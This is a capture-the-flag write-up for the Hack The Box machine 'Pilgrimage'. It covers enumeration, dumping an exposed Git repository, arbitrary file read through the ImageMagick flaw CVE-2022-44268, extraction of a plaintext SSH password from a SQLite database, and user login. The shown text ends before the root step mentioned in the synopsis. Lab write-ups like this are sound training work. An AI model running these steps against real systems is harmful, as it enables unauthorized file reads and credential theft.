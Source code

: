# HTB_Pilgrimage

## Synopsis
Pilgrimage is an easy-difficulty Linux machine featuring a web application with an exposed Git repository.  
Analysing the underlying filesystem and source code reveals the use of a vulnerable version of ImageMagick,  
which can be used to read arbitrary files on the target by embedding a malicious tEXT chunk into a PNG image.  
The vulnerability is leveraged to obtain a SQLite database file containing a plaintext password that can be  
used to SSH into the machine. Enumeration of the running processes reveals a Bash script executed by root  
that calls a vulnerable version of the Binwalk binary. By creating another malicious PNG, CVE-2022-4510 is  
leveraged to obtain Remote Code Execution (RCE) as root.

---

## Skills Required
- Basics of Web enumeration  
- Basics of Linux enumeration  

## Skills Learned
- Rudimentary source code review  
- Basic scripting  
- Structure of PNG files  

---

## Enumeration

### Nmap
An initial Nmap scan reveals SSH and Nginx services running on their respective default ports.  
The domain `pilgrimage.htb` is revealed, which we add to our hosts file.

```bash
ports=$(nmap -p- --min-rate=1000 -T4 10.10.11.219 | grep '^[0-9]' | cut -d '/' -f 1 | tr '\n' ',' | sed s/,$//)
nmap -p$ports -sC -sV 10.10.11.219
pgsql

PORT     STATE SERVICE VERSION
22/tcp   open  ssh     OpenSSH 8.4p1 Debian 5+deb11u1 (protocol 2.0)
80/tcp   open  http    nginx 1.18.0
|_http-title: Did not follow redirect to http://pilgrimage.htb/
|_http-server-header: nginx/1.18.0
Feroxbuster
We run a feroxbuster scan to enumerate potentially exposed directories and endpoints.



feroxbuster --url http://pilgrimage.htb -w /usr/share/seclists/Discovery/Web-Content/common.txt


Found: 
http://pilgrimage.htb/.git/
http://pilgrimage.htb/.git/logs/
http://pilgrimage.htb/assets/
http://pilgrimage.htb/assets/css/
http://pilgrimage.htb/assets/images/
http://pilgrimage.htb/assets/js/
http://pilgrimage.htb/tmp/
http://pilgrimage.htb/vendor/
http://pilgrimage.htb/vendor/jquery/
Git Dumper
The scan reveals an exposed .git directory. We use git-dumper to dump and recreate the repository.

git-dumper http://pilgrimage.htb/ ./pilgrimage_source

[+] Fetching http://pilgrimage.htb/.git/objects/...
[+] Running git checkout .
Foothold
The repository contains a custom ImageMagick binary:

./magick --version


Version: ImageMagick 7.1.0-49 beta
This version is vulnerable to CVE-2022-44268 (Arbitrary File Read via PNG tEXt chunk).

We use the following PoC:

git clone https://github.com/voidz0r/CVE-2022-44268.git
cd CVE-2022-44268
cargo run "/etc/passwd"
Identifying the Malicious PNG

identify -verbose image.png

png:text: 1 tEXt/zTXt/iTXt chunks were found
profile: /etc/passwd
After uploading the image and retrieving the modified version:


identify -verbose 64f59dc103cbb.png

Raw profile type:
726f6f743a783a30...
Extracting Data with Python
We decode the hex-encoded data from the image:

python3 -c 'print(bytes.fromhex("726f6f743a783a30..."))'

root:x:0:0:root:/root:/bin/bash
emily:x:1000:1000:emily:/home/emily:/bin/bash
...
SQLite DB Extraction
From the downloaded repo we find:

$db = new PDO('sqlite:/var/db/pilgrimage');
We exploit again, this time targeting the SQLite DB path:


cargo run "/var/db/pilgrimage"
Convert the hex data into an SQLite file:

with open("hex", "rb") as f:
    data = bytes.fromhex(f.read().decode())
with open("sql.db", "wb") as f:
    f.write(data)
Verify it's a valid DB:

file sql.db
pgsql

sql.db: SQLite 3.x database
Accessing Credentials


sqlite3 sql.db
sql

.tables
images  users

SELECT * FROM users;

emily|abigchonkyboi123
SSH Access
bash

ssh emily@pilgrimage.htb

Linux pilgrimage 5.10.0-23-amd64

emily@pilgrimage:~$ id
uid=1000(emily) gid=1000(emily) groups=1000(emily)
User flag can be found in /home/emily/user.txt
